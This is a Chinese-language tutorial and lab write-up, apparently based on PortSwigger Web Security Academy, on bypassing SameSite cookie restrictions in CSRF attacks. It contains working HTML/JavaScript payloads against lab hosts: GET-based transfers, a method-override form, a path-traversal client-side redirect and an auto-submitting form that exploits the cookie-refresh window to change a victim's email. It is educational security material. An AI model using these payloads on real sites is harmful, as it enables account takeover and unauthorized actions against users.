 ### CSRF 漏洞：SameSite相关绕过

当浏览器访问服务器时，服务器会在 Cookie 中添加 SameSite 属性来告诉浏览器是否在来自其他网站的请求中允许携带 Cookie。

如果发出 Cookie 的网站没有明确设置 SameSite 属性来限制来自其它网站的请求，那么浏览器自动设置 SameSite=Lax 以防止跨网站访问携带对方服务的 Cookie。

关于同源和同站点的问题，直接贴出 PortSwigger 官方解释：

| **请求方**                | **请求**                       | **同站点？**      | **同源？**       |
| ------------------------- | ------------------------------ | ----------------- | ---------------- |
| `https://example.com`     | `https://example.com`          | 是的              | 是的             |
| `https://app.example.com` | `https://intranet.example.com` | 是的              | 否：域名不匹配   |
| `https://example.com`     | `https://example.com:8080`     | 是的              | 否：端口不匹配   |
| `https://example.com`     | `https://example.co.uk`        | 否：不匹配的 eTLD | 否：域名不匹配   |
| `https://example.com`     | `http://example.com`           | 否：不匹配的方案  | 否：不匹配的方案 |

### SameSite 工作流程

在 SameSite 机制之前，浏览器针对每个请求都会添加对应网站的 Cookie，不管它是否是来自其他站点，这就导致了常规的 CSRF 携带 Cookie 攻击。SameSite 的工作原理是使浏览器和网站所有者能够限制哪些跨站点请求（如果有）应包含特定 Cookie。如下是 SameSite 等级：

- Strict：只要请求属于跨站请求，就不携带 Cookie。
- Lax：如果请求属于跨站请求，满足以下条件可以携带 Cookie：
  - 使用 Get 方式发起请求。
  - 使用顶级导航发起请求（如地址栏输入和超链接跳转）。
- None：跨站请求携带 Cookie。

开发人员可以手动设置他们网站的 SameSite 级别，例如：

```
Set-Cookie: session=0F8tgdOhi9ynR1M9wa3ODa; SameSite=Strict
```

| 操作类型               | 是否携带 Cookie（SameSite=Lax） | 示例场景                                                     |
| ---------------------- | ------------------------------- | ------------------------------------------------------------ |
| **用户主动导航**       | 是                              | 点击 `<a href>` 链接、提交 `<form>` 表单、在地址栏输入 URL 等。 |
| **脚本自动触发的请求** | 否                              | `window.open()` 弹窗、`fetch()`/`XMLHttpRequest` 跨源请求、定时器提交表单等。 |

### 实验：使用 GET 请求绕过 Lax 限制

##### 使用顶级导航

```
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

##### GET 请求被覆盖成 POST

下面这个案例是 POST 请求被覆盖成 GET：

这是某些框架的特性，表单声明为 method="POST"，但被框架覆盖为 GET 请求，服务器看作 GET 请求，而浏览器认为是 POST 请求。

```
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```

GET 请求被覆盖成 POST payload：

让 POST 请求覆盖 GET 请求，导致浏览器按 GET 请求判断，服务器按 POST 请求处理。

```
<script>
    document.location = "https://0a62002903e24ada80554453009a009b.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

总结：探测框架特性，看是否允许方式覆盖。

### 通过客户端重定向进行同源跳转绕过 Strict

如果目标站点存在客户端 url 重定向，那么直接通过目标网站 url 构造 csrf，那么将不存在跨域问题。（因为受害者是从目标网站的重定向页面跳转到敏感页面，这一行为不存在跨域）

```
[受害者访问攻击者页面] --> 
[脚本触发同源跳转（路径穿越）] --> 
[浏览器发送同源请求并携带 Cookie] --> 
[服务器执行敏感操作（修改邮箱）]
```

### 实验：通过客户端重定向绕过 Strict

当你在某一文章下发表完评论后，会跳转到文章页面：

```
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

![image-20250419111552736](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CSRF%20%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0/images/image-20250419111552736.png)

```
访问：https://0ace00d204a086a1807d0308008f008a.web-security-academy.net/post/comment/confirmation?postId=8
重定向后的 url =  blogPath + '/' + postId
其中：
blogpath = https://0ace00d204a086a1807d0308008f008a.web-security-academy.net/post
postId = 8
重定向后的 url = https://0ace00d204a086a1807d0308008f008a.web-security-academy.net/post/8

如果篡改 postId = ../my-account，访问如下url：
https://0ace00d204a086a1807d0308008f008a.web-security-academy.net/post/comment/confirmation?postId=../my-account

会跳转到登录页面：
```

![image-20250419112419269](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CSRF%20%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0/images/image-20250419112419269.png)

payload：

```
<script>
    document.location = "https://0ace00d204a086a1807d0308008f008a.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=wiener%40pwned.net%26submit=1";
</script>
```

注：要 URL 编码 & 分隔符，防止一开始就被解析。 

### 实验：使用新发布的 Cookie 绕过 SameSite Lax 限制

绕过场景：服务器没有设置 Cookie 的 SameSite 属性，导致默认 Lax。

Chrome 为了避免破坏单点登录（SSO）机制，不会在前 120 秒内对顶级请求实施这些限制。

攻击者需要让用户重新生成 Cookie，以获取这 2 分钟的窗口期进行攻击。

使用如下 poc 放在攻击者服务器上：

```
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

当你在登录后的 2 分钟之内访问它，发现 poc 能成功生效，如下图修改邮箱成功。

![image-20250419163042455](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CSRF%20%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0/images/image-20250419163042455.png)

如果用户登录超过两分钟，那么诱使用户访问其他页面重新获取 Cookie 后，再访问敏感操作页面（如修改邮箱）。

```
<form method="POST" action="https://0a9e00760433327180ac357700ea0078.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://0a9e00760433327180ac357700ea0078.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```


脚本操作：

1. 打开一个新的标签页，是用户重新登陆的页面。（细节：window.open 不符合用户主动导航，所以不携带 cookie，所以不会因为携带 cookie 重定向到主页这种情况。）
1. 设置 5 秒后自动提交 csrf 表单。

